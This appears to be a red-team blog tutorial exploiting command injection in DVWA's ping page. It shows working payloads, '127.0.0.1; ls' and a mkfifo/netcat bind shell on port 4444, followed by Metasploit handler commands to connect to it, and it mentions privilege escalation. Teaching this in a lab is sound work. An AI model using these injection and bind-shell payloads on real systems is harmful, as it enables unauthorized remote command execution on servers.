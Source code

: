 ```yaml
---
layout: post
section-type: post
title: Exploiting Command Injection vulnerabilities
category: tech
tags: [ 'redteam', 'kali', 'dvwa' ]
---
```

Command Injection is the manipulation of a vulnerable software in order to execute arbitrary commands on the host operating system.
Command Injections are possible when the vulnerable application skips the input validation before executing a shell command on the host operating system.
We'll get our hands on DVWA's Command Injection section, and then we'll open a backdoor on the host, using [Metasploit](https://www.metasploit.com/).

Visit the *Command Injection* section of DVWA.

![ci-0](/img/posts/ci/ci-0.png)

The page says that it will ping an IP address for us, so let's see what will do for the IP *127.0.0.1*:

![ci-1](/img/posts/ci/ci-1.png)

Now, let's try to append a list bash command after our input IP address:

<pre><code data-trim class="bash">
127.0.0.1; ls
</code></pre>

![ci-2](/img/posts/ci/ci-2.png)

Sweet, DVWA simply appends our input in the underlying bash command!

Now, let's listen on port *4444* using netcat and redirect all the incoming bytes to a bash shell:

<pre><code data-trim class="bash">
127.0.0.1; mkfifo /tmp/pipe ; sh /tmp/pipe | nc -l -p 4444 > /tmp/pipe
</code></pre>

![ci-3](/img/posts/ci/ci-3.png)

As you noticed the page is loading forever, so our backdoor is open and waiting for us... :smile:

Let's start msfconsole and open the shell on the server:

<pre><code data-trim class="bash">
⁠⁠⁠msfconsole
use exploit/multi/handler
set payload linux/x64/shell/bind_tcp
set RHOST 127.0.0.1
</code></pre>

![ci-4](/img/posts/ci/ci-4.png)

Note that we didn't set the LPORT of bind_tcp, since the default one is *4444*.

As you notice we are the *www-data* user, and that's why we can't read the /etc/shadow file, which contains the user passwords of the operating system.
But, we have all the privileges that *www-data* user has and we can e.g. modify DVWA or escalate to root, by exploiting a local privilege escalation vulnerability.

Happy binding!

